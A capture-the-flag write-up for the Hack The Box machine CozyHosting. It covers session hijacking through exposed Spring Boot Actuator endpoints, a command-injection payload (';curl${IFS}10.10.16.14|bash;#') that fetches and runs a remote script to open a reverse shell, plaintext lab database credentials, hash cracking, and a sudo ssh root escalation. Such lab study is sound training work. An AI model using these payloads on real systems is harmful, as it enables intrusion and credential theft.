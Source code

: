 ```yaml
---
title: HTB - CozyHosting
pin: true
layout: ""
author: [ Scott & Jolicious ]
math: true
date: 2024-03-05 
mermaid: true
icon: https://wolfcareers.com/wp-content/uploads/2023/01/1_cQGpZGkSuehv-YEXUweMQ-e1672674616339.webp
---
```


![alt text](/cozyhos/CozyHosting.png)

## Overview:
CozyHosting is an Linux Easy Machine that features a Spring Boot application. The Actuator endpoint has access to get mappings and sessions. A user's session cookie can be found by enumerating the endpoint, which grants authenticated access to the main dashboard. The program is susceptible to command injection, which can be used to take control of the remote computer and obtain a reverse shell. By counting the JAR files in the application, hardcoded login credentials are found and utilized to access the local database. Once the hashed password in the database has been cracked, it may be used to get onto the computer as the user Josh. SSH as root is permitted for the user, and this is used to fully escalate rights.


## Recon
---

### Nmap:

As always start with port scanning of cozyHosting using nmap:

```python
kali Easy/CozyHosting » sudo nmap -sC -sV 10.10.11.230  -oN nmap/initial
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 12:14 +0545
Nmap scan report for 10.10.11.230 (10.10.11.230)
Host is up (0.70s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open  http      nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
4444/tcp open  krb524?
8000/tcp open  http-alt?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.19 seconds
```

The nmap result listed out the different ports i.e 80, 4444 and 8000.
 <br>
The TCP Port 80 didnot follow redirection. So adding `cozyhosting.htb` at /etc/hosts.

### HTTP 80 

![1](/cozyhos/1.png)

This site seems like to be web hosting. while navigating the website there is login page . Jump into their.

![alt text](/cozyhos/2.png)

There was nothing much interesting or any injections like Sql, etc in login page.

Fuzz the directories using Dirsearch.
![alt text](/cozyhos/3.png)

There is something identified or found the actuator directories. 

Search actuator in google.
![alt text](/cozyhos/4.png)

It is the `Spring Boot Actuator`. 

While continuously searching the Spring Boot Actuator there is the some documentation about mappings and seesions. 
- `mappings` endpoint which provides information about the application’s request mappings and 
- `sessions` endpoint which provides information about the application’s HTTP sessions that are managed by Spring Session.

Through we might find these fuzzing directories.

```bash
kali Easy/CozyHosting » cat reports/http_cozyhosting.htb/output.txt 
200     5KB  http://cozyhosting.htb/actuator/env
200     0B   http://cozyhosting.htb/actuator/;/prometheus
200    15B   http://cozyhosting.htb/actuator/health
200    10KB  http://cozyhosting.htb/actuator/mappings
200    98B   http://cozyhosting.htb/actuator/sessions
200   124KB  http://cozyhosting.htb/actuator/beans
401    97B   http://cozyhosting.htb/admin
```
## Foothold

Lets see `/actuator/mappings` 
![alt text](/cozyhos/5.png)

OR, 
```bash
kali Easy/CozyHosting »  curl http://cozyhosting.htb/actuator/mappings -X GET | jq .  
```
![alt text](/cozyhos/or2.png)

And see `/actuator/sessions` 
![alt text](/cozyhos/6.png)

OR,
```bash
kali Easy/CozyHosting » curl http://cozyhosting.htb/actuator/sessions -X GET | jq . 
```
![alt text](/cozyhos/or1.png)



There is jsessionid cookie with the session for kanderson to access the admin page. so it is `Session-Hiiacking` .

### Session Hijacking

While inspecting, go to cookie settings and replace the jsessionid with kanderson sessionid 

![alt text](/cozyhos/7.png)

When refreshing the page `/login` or `/admin` it goes to Admin Dashboard.

![alt text](/cozyhos/8.png)

Success !

### Host into Automatic Patching

Submitting the hostname as with localhost and Username as abc
![alt text](/cozyhos/AP.png)

it shows host key failed.

![alt text](/cozyhos/AP1.png)

The error  indicate that the service is attempting to connect to the specified host via SSH something like that:

```bash
ssh -i id_rsa username@hostname
```
It must be Command Injection

and we tried to run some command and got this errors as follows that the whitespaces aren't allowed.
![alt text](/cozyhos/18.png)


### Command Injection 

If it is Command Injection, the thing is that White spaces are not allowed in the username box. Lets search for whitespace box with spaces. 

![alt text](/cozyhos/9.png)

Found it says that so to bypass we can use ${IFS} as single space. which is a special shell variable that stands for
Internal Field Separator and defaults to a space  in shells like `Bash` and `sh` . It must be something like these testing in the username if it so.

```bash
abc;curl${IFS}+$IP;
```

Open a python server with 8000. When submitting the hostname as abc and username as ``;curl${IFS}10.10.16.14|bash;#``

![alt text](/cozyhos/11.png)

It hitted back to local host

![alt text](/cozyhos/12.png)

Lets first get a reverse shell whith creating sh file named `a.sh` and add:
![alt text](/cozyhos/10.png)

Hit a submit button with the payload that callback o our reverse shell handler. 
![alt text](/cozyhos/14.png)

Same using python server as well as listen a netcat with 9001. 

![alt text](/cozyhos/13.png)

Got shell `app@cozyhosting`. 

First stabilize the shell using `/usr/bin/script -qc /bin/bash /dev/null`. After that, there is jar file called ``cloudhosting-0.0.1.jar`` . 
![alt text](/cozyhos/15.png)

Download it to our local machine using python3 server from remote and wget.
![alt text](/cozyhos/16.png)

After we decrypt the jar file and run this command and get password
![alt text](/cozyhos/17.png)

Got the credentials i.e postgres:Vg&nvzAQ7XxR for postgres database of `app@cloudhosting` . 
login in postgres instance using these command:
```bash
psql -U postgres -h 127.0.0.1 -W -p 5432
```
We are able to access the postgres sql.
![alt text](/cozyhos/19.png)
We check the databases present in the DBMS.

![alt text](/cozyhos/20.png)
Cozyhosting is the database we need to enumerate. We use the following command to connect to the database cozyhosting.

```bash
\c cozyhosting
```
![alt text](/cozyhos/21.png)
There are 3 tables in the database cozyhosting. Looking at the names, it looks like the table that would be useful to us is users.
![alt text](/cozyhos/22.png)
There are two hash in the table users `admin` and `kanderson`.

![alt text](/cozyhos/23.png)

We save the hash in a file and run john in order to crack the hash. John is able to crack the hash and we get the password as `manchesterunited`.
![alt text](/cozyhos/25.png)
Login as another user that is `josh` and see the `sudo` privileges we have as the user. We can run `ssh` using `sudo`.
![alt text](/cozyhos/26.png)
GTFObins has some useful information in order to run commands using `ssh` .
![alt text](/cozyhos/27.png)
We run the command as seen in GTFObin and get root access in the machine.
![alt text](/cozyhos/28.png)
                
### THE END !

### REFERENCES:
1. https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces
2. https://gtfobins.github.io/gtfobins/ssh/
   